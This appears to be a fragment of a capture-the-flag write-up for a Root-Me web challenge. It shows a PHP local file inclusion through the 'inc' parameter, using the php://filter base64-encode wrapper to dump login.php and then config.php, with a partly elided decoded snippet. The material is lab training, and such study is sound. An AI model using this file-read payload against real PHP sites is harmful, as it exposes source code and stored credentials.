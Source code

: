 http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=login.php<br/>
base64 decode:<br/>
<?php<br/>
include("config.php");<br/>
...<br/>
<br/>
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=config.php<br/>

